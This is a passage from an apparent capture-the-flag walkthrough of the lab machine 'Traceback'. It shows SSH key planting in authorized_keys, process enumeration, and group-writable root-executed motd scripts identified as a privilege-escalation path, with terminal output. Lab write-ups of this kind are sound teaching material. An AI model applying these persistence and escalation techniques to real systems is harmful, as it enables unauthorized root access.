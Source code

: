 And let's finally get the flag:
```
sysadmin@traceback:~$ wc -c user.txt
33 user.txt
```

## Privilege escalation
First of all, let's create a SSH key with `ssh-keygen` on our machine and lets
add the public key to `/home/sysadmin/.ssh/authorized_keys` and use it to login:
```
$ ssh -i sysadmin sysadmin@10.10.10.181
The authenticity of host '10.10.10.181 (10.10.10.181)' can't be established.
ECDSA key fingerprint is SHA256:7PFVHQKwaybxzyT2EcuSpJvyQcAASWY9E/TlxoqxInU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.181' (ECDSA) to the list of known hosts.
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Aug 14 11:34:08 2020 from 10.10.14.127
$ bash
sysadmin@traceback:~$
```

Looking at the list of running processes, we can see an interesting one:
```
root       3518  0.0  0.0   4628   780 ?        Ss   07:03   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```

Basically all the scripts in `/etc/update-motd.d` are executed as root when
logging in with ssh to create the welcome banner. Lets take a look at the
permission of the files:
```
sysadmin@traceback:~ ls -la /etc/update-motd.d
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 Aug 14 12:51 00-header
-rwxrwxr-x  1 root sysadmin  982 Aug 14 12:51 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Aug 14 12:51 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Aug 14 12:51 80-esm
-rwxrwxr-x  1 root sysadmin  299 Aug 14 12:51 91-release-upgrade
```

